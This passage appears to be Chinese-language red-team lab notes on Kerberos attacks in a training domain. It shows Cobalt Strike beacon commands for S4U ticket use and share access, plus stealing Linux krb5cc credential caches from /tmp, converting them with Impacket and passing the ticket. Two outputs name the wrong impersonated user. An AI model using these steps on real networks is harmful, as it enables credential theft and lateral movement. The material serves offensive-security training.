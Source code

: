 beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

beacon> ls \\wkstn-2.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:35:19   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot

```

下面是微软官方关于 S4U2self 和 S4U2proxy 工作过程的示意图:

![img](https://img.4hou.com/uploads/20190626/1561541368924891.png)


# Linux Credential Cache

提取域内linux机器的凭据

ccache files存储在```/tmp```目录下，注意它们都以```krb5cc```开头
```
svc_oracle@nix-1:~$ ls -l /tmp/
total 20
-rw------- 1 jking      domain users 1342 Mar  9 15:21 krb5cc_1394201122_MerMmG
-rw------- 1 svc_oracle domain users 1341 Mar  9 15:33 krb5cc_1394201127_NkktoD
```

需要root权限才能下载上面的文件，如果没有root权限，先提权

下载到本地以后，使用 Impacket把上面的文件转成kirbi格式
```
root@kali:~# impacket-ticketConverter krb5cc_1394201122_MerMmG jking.kirbi
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done
```


Cobalt Strike也有一个转kirbi的命令，但是在这个例子里，好像不能识别
```
beacon> kerberos_ccache_use C:\Users\Administrator\Desktop\krb5cc_1394201122_MerMmG
[-] Could not extract ticket from C:\Users\Administrator\Desktop\krb5cc_1394201122_MerMmG
```


ptt,访问srv-2
```
beacon> make_token DEV\jking FakePass
[+] Impersonated DEV\bfarmer

